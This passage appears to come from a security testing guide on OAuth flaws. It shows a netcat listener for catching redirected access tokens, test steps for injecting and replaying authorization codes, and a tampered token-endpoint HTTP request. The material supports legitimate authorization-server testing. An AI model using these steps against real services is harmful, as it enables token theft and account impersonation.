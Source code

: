 ```JavaScript
      <input type="button" value="Submit request" onclick="submitRequest();" />
    </form>
    </body>
</html>
```

On the address configured in `MY_REDIRECT_URI` open a netcat listener to capture the response with the access token.

This listener needs to be reachable by the browser that accesses the above script.

```bash
nc -l -p 443
```

When the `code` is valid the attacker can retrieve the access token from the token endpoint of the AS. This won't work for confidential clients since the AS requires the client secret as well.  

### Authorization Code Injection

During the Authorization Code flow's code exchange a code is issued by the authorization server to the client and later exchanged against the token endpoint to retrieve an authorization token and a refresh token.

An attacker who want's to impersonate a specific resource owner on a confidential client can do so by injecting a stolen authorization code into an authorization code flow initiated by the attacker.

Conduct the following tests against the authorization server:

- send a valid code for another client_id
- send a valid code for another redirect_uri
- resend the code more than once (code replay)

#### Public Clients

The request which is sent towards the token endpoint contains the code as it is exchanged against the token.
Capture this request with an HTTP Interception proxy like OWASP ZAP and resend the request with the tampered values.

```http
POST /oauth/token HTTP/1.1
Host: as.example.com
[...]

{"errorPath":"/error",
"client_id":"example-client",
"code":"INJECT_CODE_HERE",
"grant_type":"authorization_code",
"redirect_uri":"http://client.example.com"}
```

#### Confidential Clients

As the oAuth flow for confidential clients is protected by a client secret additionally it is not possible to directly submit a code to the token endpoint. Instead it is needed to inject the authorization code into the client. This injected code will then be send in the token request, issued by the confidential client together with the client secret.
